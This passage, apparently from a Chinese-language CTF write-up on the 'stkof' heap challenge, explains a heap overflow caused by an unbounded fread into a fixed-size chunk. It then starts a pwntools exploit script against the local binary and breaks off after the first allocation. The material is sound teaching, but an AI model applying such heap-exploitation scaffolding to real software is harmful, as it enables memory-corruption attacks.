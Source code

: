 上面的代码有注释，这里不过多的细说了，主要是注意一下edit_a_heap函数中有个堆溢出漏洞就可以了。

```c
 for ( i = fread(ptr, 1uLL, n, stdin); i > 0; i = fread(ptr, 1uLL, n, stdin) )
  { // 申请的堆空间是有长度限制的，但是修改时对输入没有限制，可造成堆溢出
    ptr += i;
    n -= i;
  }
```

> fread函数原型如下：size_t fread(void *ptr, size_t size, size_t nmemb, FILE *stream)
>
> 参数：
>
> + ptr – 这是指向带有最小尺寸 size*nmemb 字节的内存块的指针
> + size – 这是要读取的每个元素的大小，以字节为单位
> + nmemb – 这是元素的个数，每个元素的大小为 size 字节
> + stream – 这是指向 FILE 对象的指针，该 FILE 对象指定了一个输入流
>
> 返回值：
>
> 成功读取的元素总数会以 size_t 对象返回，size_t 对象是一个整型数据类型。如果总数与 nmemb 参数不同，则可能发生了一个错误或者到达了文件末尾
>
> 
>
> **<font style="color:#F5222D;">简单的说，fread函数可以对堆中的数据进行录入修改。</font>**
>
> **<font style="color:#F5222D;">还有一点要说的是malloc返回的指针是指向chunk_data的，而不是prev_size</font>**
>

IDA的静态分析到此结束。

# 思路分析及动态调试
为了讲解方便，因此我们先将exp贴到文章中，请先阅读以留个印象。

```python
from pwn import *
import time
context(log_level="DEBUG")

def create(size):
    p.sendline("1")
    time.sleep(1)
    p.sendline(str(size))

def edit(index, length, content):
    p.sendline("2")
    time.sleep(1)
    p.sendline(str(index))
    time.sleep(1)
    p.sendline(str(length))
    time.sleep(1)
    p.sendline(content)

def delete(index):
    p.sendline("3")
    time.sleep(1)
    p.sendline(str(index))

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF("./stkof_patch")
p = process("./stkof_patch")

log.info("Creating chunk1, avoid stdout's buffer.")
create(0x100)
```